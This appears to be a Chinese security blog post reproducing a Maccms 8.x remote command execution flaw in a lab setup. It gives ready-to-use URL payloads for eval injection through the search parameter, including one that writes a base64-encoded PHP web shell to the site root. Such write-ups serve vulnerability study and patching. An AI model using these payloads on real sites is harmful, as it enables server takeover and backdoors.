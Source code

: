 ```yaml
---
title:  Maccms8.x(苹果cms)命令执行漏洞复现
date: 2019-11-04 16:20:12
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - Maccms
    - 漏洞复现
    - 苹果cms
    - Command Execution
---
```

# 0x00 漏洞概述

村里刚通网，复现下maccms的命令执行漏洞
该漏洞主要的产生原因是CMS搜索页面搜索参数过滤不严
导致直接eval执行PHP语句，前台命令执行可getshell

# 0x01 影响版本

**Maccms8.x**

# 0x02 漏洞复现
## 环境搭建

下载Github上的环境：
[Maccms8.x源码](https://github.com/yaofeifly/Maccms8.x)

然后使用`phpstudy`搭建安装即可
也可自己搭建`Apache+Mysql+php`环境安装

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104164824.png)

## 漏洞利用

payload：

`url+/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A}`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104165220.png)




getshell payload（a）:

`url+/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}`   
POST  
`a=phpinfo()`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104170625.png)




写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

`url+/index.php?m=vod-search`
```
wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A}
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104173840.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104174007.png)



# 0x03 参考文章
[苹果CMS漏洞](https://blog.csdn.net/m0_37438418/article/details/81006161)
[Maccms8.x: Maccms8.x](https://github.com/yaofeifly/Maccms8.x)